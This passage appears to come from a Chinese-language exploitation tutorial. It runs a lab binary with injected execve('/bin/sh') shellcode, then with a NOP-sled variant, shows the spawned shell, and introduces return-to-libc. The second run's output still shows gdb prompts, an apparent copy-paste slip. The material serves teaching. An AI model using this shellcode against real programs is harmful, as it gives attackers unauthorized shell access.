 
```
$ gdb -q --args ./bof $(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 24)+ "\xb0\xd4\xff\xff"')
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/sh4rk/pwnable/bof 1Ph//shh/binSᙰAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
argv[1]: 1Ph//shh/binSᙰAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
process 21972 is executing new program: /bin/dash
$ id
uid=1000(sh4rk) gid=1000(sh4rk) groups=1000(sh4rk),27(sudo)
$ 
```

- 在gdb外获取shell

刚才成功利用是在gdb中运行，如果不使用gdb，直接运行，你会发现shellcode无法执行。

实际上，在gdb中运行程序时，gdb会为进程增加许多环境变量，存储在栈上，导致栈用的更多，栈的地址变低了。直接运行时，栈地址会比gdb中高，所以刚才找的shellcode地址就不适用了。

将0xffffd4b0升高为0xffffd4ea，同时在shellcode前面增加长度为60的NOP链，只要命中任何一个NOP即可。

```
$ ./bof $(python -c 'print "\x90" * 60 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * (140 - 60 - 24)+ "\xea\xd4\xff\xff"')                                            # 增加NOP Sled
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/sh4rk/pwnable/bof 1Ph//shh/binSᙰAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
argv[1]: 1Ph//shh/binSᙰAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
process 21972 is executing new program: /bin/dash
$ id
uid=1000(sh4rk) gid=1000(sh4rk) groups=1000(sh4rk),27(sudo)
$ 
```



## return to libc

发生栈溢出时，不跳转到shellcode，而是跳转到libc中的函数，在返回地址处的栈上依次写入system、exit、"bin/sh"字符串地址、0，我们可控函数返回时会如何执行。

![img](images/从栈溢出到ROP/ret2libc1.png)